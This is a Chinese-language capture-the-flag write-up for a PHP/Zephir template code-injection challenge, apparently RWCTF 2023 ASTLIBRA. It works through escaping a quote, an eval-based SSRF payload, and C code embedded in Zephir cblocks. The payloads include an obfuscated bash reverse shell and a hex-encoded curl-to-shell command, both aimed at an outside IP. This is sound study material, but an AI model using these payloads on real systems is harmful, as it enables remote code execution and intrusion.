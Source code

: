 ```yaml
---
archive: CTF
tags: 
  - SSRF
  - 代码注入
Date: 2023/1/10
---
```


题目环境：
php7.4 + Zephir

用户输入一个链接，然后通过以下模板文件生成一个访问类。
```php
namespace {namespace};
class {class}{
    public function getURL(){
        return "{base64url}";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "{url}");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

使用了 `preg_replace` 进行模板关键字的替换，主要逻辑：
```php
$zep_file = preg_replace('/(.*)\{namespace\}(.*)/is', '${1}'.$namespace.'${2}', $tmpl);
$zep_file = preg_replace('/(.*)\{class\}(.*)/is', '${1}'.$class.'${2}', $zep_file);
$zep_file = preg_replace('/(.*)\{base64url\}(.*)/is', '${1}'.base64_encode($url).'${2}', $zep_file);
$zep_file = preg_replace('/(.*)\{url\}(.*)/is', '${1}'.$url.'${2}', $zep_file);
```

其中只有 `url` 完全可控。WAF对于 `url` 进行了一次 `addslashes` 转义，并且在调用 `test` 函数之前会调用 `getURL` 然后 `base64decode` 检查 url 是否出现 `[a-zA-Z0-9_\/\.\:]` 之外的非法字符。

`bot.php` 读取模板文件内容并把它通过 [zephir](https://github.com/zephir-lang/zephir) 编译成 so 文件供 php 脚本调用。然后调用命令行执行 php 脚本。
```php
<?php
if (class_exists('\\{namespace}\\{class}')) {
    \$magic_methods = ['__construct', '__destruct', '__call', '__callStatic', '__get', '__set', '__isset', '__unset', '__sleep', '__wakeup', '__toString', '__invoke', '__set_state', '__clone', '__debugInfo','__serialize','__unserialize'];
    foreach (get_class_methods('\\{namespace}\\{class}') as \$method) {
        if (in_array(\$method, \$magic_methods)) {
            die('Magic method ' . \$method . ' is not allowed');
        }
    }
    \$c = new \\{namespace}\\{class};
    \$url = base64_decode(\$c->getURL());
    if (preg_match('/[^a-zA-Z0-9_\/\.\:]/', \$url)) {
        die('Invalid characters in URL');
    }
    echo \$c->test();

} else {
    echo 'Class \\{namespace}\\{class} not found';
}
?>
```

Zephir 主要流程是将 php 代码生成 c 代码再编译得到 so 文件。

## `\` 绕过

使用 `\"` 经过`addslashes` + `preg_replace` 后会变成 `\\"` 从而逃出引号。

```php
<?php
$url = "\(";
$url = addslashes($url);
echo $url;
$url2 = preg_replace('/\{url\}/', $url, "{url}");
echo $url2;
// output:
// \\(
// \(
```

构造：
```
https://store.steampowered.com/app\");}}
payload
function foo(){if false{var bar=0;//
```

**使用 `${2}` ?**
```
https://store.steampowered.com/app${2}
payload/*
```

php模板会变成：
```php
namespace Admin;

class Simple{
    public function getURL(){
        return "base64";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "https://store.steampowered.com/app");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
payload/*");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

## 利用

### SSRF

php 的构造函数可以和类同名，在创建类实例时自动调用。如果存在 `__construct` 函数便会覆盖这个同名构造函数。

因此可以构造一个同名构造函数进行调用。

```
http://xxx\\"}
public function <classname>(){
	payload
var ch=0;//");
```

由于 zephir 自己的语言能力较弱，所以考虑直接使用 eval 执行 php 代码，然后用 php-curl 构造 ssrf 数据包。

关键 payload：[from](https://github.com/wupco/rwctf2023-ASTLIBRA/blob/main/exploit.py)
```
payload = 'http;Lyo;$bd = base64_decode($this->getURL()); $bd = $bd[5].$bd[6].$bd[7].$bd; eval(base64_decode($bd));//\\");} public function test123456(){ eval(base64_decode(this->getURL())); var ch = curl_init();//%s' % code.decode()
```

![](https://cdn.silente.top/img/p2.png)

### cblock

`secure.patch` 中有一个 fix 注释掉了 cblock 内容，翻 Zephir github 才知道它其实[支持](https://github.com/zephir-lang/zephir/issues/654)使用 cblock 内嵌 c 代码，（但是官方文档里并没有相关的指南hh）

类似于这种例子：
```php
namespace Testcurl;
%{
#include <stdio.h>
#include <curl/curl.h>
}%
class Simple
{
    public static function version() -> string
    {
        string ver="";
        %{
            ZVAL_STRING(ver, curl_version(), 1);
        }%
        return ver;
    }
    public static function getUrlContent(string! url)
    {
        %{
            CURL *curl;
            CURLcode res;
            curl = curl_easy_init();
            if(curl) {
              curl_easy_setopt(curl, CURLOPT_URL, Z_STRVAL_P(url));
              curl_easy_setopt(curl, CURLOPT_FOLLOWLOCATION, 1L);
              res = curl_easy_perform(curl);
              curl_easy_cleanup(curl);
            }
        }%
    }
}
```

而进一步翻阅源码可以知道 Zephir 在解析 cblock 时分为了全局域和函数域两个步骤，`secure.patch` 所在的 `Library/StatementsBlock.php` 仅仅对应了对于函数域的解析，然后对于全局域的解析是在 `Library/CompilerFile.php`，并没有被ban掉，所以可以在全局域嵌入 c 代码。

形如：
```
https://store.steampowered.com/app\");}}
%{
payload
}%
function foo(){if false {var bar=0;//
```

1. 劫持宏反弹shell

查看 Zephir 生成的 C 语言代码，可以看到在 `getURL` 那里调用了一个 Zend API： `RETURN_STRING`，重定义劫持宏达成命令执行。

```
https://store.steampowered.com/app\");}}
%{
#define A bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjE0Mi4xMDQuNzgvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}'
#define _A(str) _TMP(str)
#define _TMP(str) #str
#define RETURN_STRING(a) system(_A(A))
}%
function foo(){if false {var bar=0;//
```

2. `__attribute__`
GNC C 特有的一个机制，可以设置函数属性（Function Attribute ）、变量属性（Variable Attribute ）和类型属性（Type Attribute ）。

```
https://store.steampowered.com/app\");}}
%{
__attribute__((constructor)) static void beforeFunction() {
char s[] = {0x63,0x75,0x72,0x6c,0x20,0x38,0x2e,0x31,0x34,0x32,0x2e,0x31,0x30,0x34,0x2e,0x37,0x38,0x3a,0x39,0x30,0x30,0x31,0x7c,0x73,
              0x68, 0x00};
        system(s);
};
}%
function a(){if false{var ch=0;//
```

### 维持

在执行 `bot.php` 时会加入一个 `timeout 10` 参数，需要获得一个持久的 shell。

经过尝试发现可以在弹的shell里面再弹一次shell，它就只会关闭第二个shell，第一个 shell 就不会 exit，不是很懂。。。

## Ref
- r3
- https://github.com/wupco/rwctf2023-ASTLIBRA
- [Zephir](https://github.com/zephir-lang/zephir)
- [Zend API](https://php.golaravel.com/internals2.ze1.zendapi.html)